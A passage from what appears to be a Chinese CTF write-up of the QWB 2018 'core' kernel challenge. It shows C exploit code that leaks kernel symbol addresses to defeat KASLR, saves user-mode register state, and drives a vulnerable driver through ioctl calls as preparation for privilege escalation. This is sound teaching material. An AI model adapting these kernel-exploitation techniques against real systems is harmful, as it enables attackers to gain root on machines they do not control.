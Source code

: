 ```c
                Type "help", "copyright", "credits" or "license" for more information.
                >>> from pwn import *
                >>> vmlinux = ELF("./vmlinux")
                [*] '/home/klose/ctf/pwn/kernel/wp/qwb/2018/qwb2018_core/give_to_player/vmlinux'
                    Arch:     amd64-64-little
                    RELRO:    No RELRO
                    Stack:    Canary found
                    NX:       NX disabled
                    PIE:      No PIE (0xffffffff81000000)
                    RWX:      Has RWX segments
                >>> hex(vmlinux.sym['commit_creds'] - 0xffffffff81000000)
                '0x9c8e0'
                >>> 
            */
           vmlinux_base = commit_creds - 0x9c8e0;
           printf("[+] vmlinux_base addr => %p\n", vmlinux_base);
        }

        if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred){
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("[+] prepare_kernel_cred addr => %p\n", prepare_kernel_cred);
            /*
                same method
                >>> hex(vmlinux.sym['prepare_kernel_cred'] - 0xffffffff81000000)
                '0x9cce0'
            */
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            printf("[+] vmlinux_base addr => %p\n", vmlinux_base);
        }
    }
    if(!(commit_creds & prepare_kernel_cred)){
        puts("[-] Didn't get info, error!");
        exit(0);
    }
}

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[+] status has been saved.");
}

void set_off(int fd, long long idx){
    printf("[*] set off to %ld\n", idx);
    ioctl(fd, 0x6677889c, idx);
}

void core_read(int fd, char *buf){
    puts("[*] read to buf.");
    ioctl(fd, 0x6677889b, buf);
}

void core_copy_func(int fd, long long size){
    printf("[*] copy from user with size: %ld\n", size);
    ioctl(fd, 0x6677889a, size);
```

[vmlinux & bzImage 的关系]: https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml	"vmlinux &amp; bzImage 的关系"
[ extract-vmlinux ]: https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux "extract-vmlinux"